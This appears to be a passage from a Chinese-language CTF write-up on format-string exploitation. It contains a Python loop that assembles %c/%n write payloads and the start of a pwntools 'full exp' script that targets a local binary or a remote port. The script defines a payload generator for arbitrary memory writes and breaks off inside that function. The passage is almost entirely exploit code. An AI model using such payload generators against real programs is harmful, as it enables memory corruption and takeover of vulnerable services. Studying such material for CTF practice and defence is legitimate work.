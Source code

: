 ```python

	x_add = 0
	y_add = 0
	while True:
		
		x_add = len1 / 8 + 1
		y_add = 8 - (len1 % 8)
		
		for i in range(len(key_temp)):
			key_temp[i] = key_offset_fmtCount[i] + x_add
		
		payload_temp = ""
		for i in range(0,number):
			if key_toadd[i] != 0:
				payload_temp += "%{}c".format(key_toadd[i])
			payload_temp += "%{}${}n".format(key_temp[i], formatz)

		len2 = len(payload_temp)

		xchange = y_add - (len2 - len1)
		if xchange >= 0:
			payload = payload_temp + xchange*'a' + payload_last
			return payload;
		else:
			len1 = len2
```

### 完整exp

那么完整的exp对于增加了strlen函数的题目之后就是这样子了:

```python
#-*- coding:utf-8 –*-
from pwn import *
import time
from LibcSearcher import LibcSearcher
#context.log_level='debug'
#context(arch = 'i386', os = 'linux', log_level='debug')
context(arch = 'amd64', os = 'linux', log_level='debug')
#log_level=['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
Debug = 1
if Debug:
    io = process("./stilltest")
else:
    io = remote('0.0.0.0',10003)

def antitone_fmt_payload(offset, writes, numbwritten=0, write_size='byte'):
	config = {
		32 : {
			'byte': (4, 1, 0xFF, 'hh', 8),
			'short': (2, 2, 0xFFFF, 'h', 16),
			'int': (1, 4, 0xFFFFFFFF, '', 32)},
		64 : {
			'byte': (8, 1, 0xFF, 'hh', 8),
			'short': (4, 2, 0xFFFF, 'h', 16),
			'int': (2, 4, 0xFFFFFFFF, '', 32)
		}
	}

	if write_size not in ['byte', 'short', 'int']:
		log.error("write_size must be 'byte', 'short' or 'int'")

	number, step, mask, formatz, decalage = config[context.bits][write_size]

```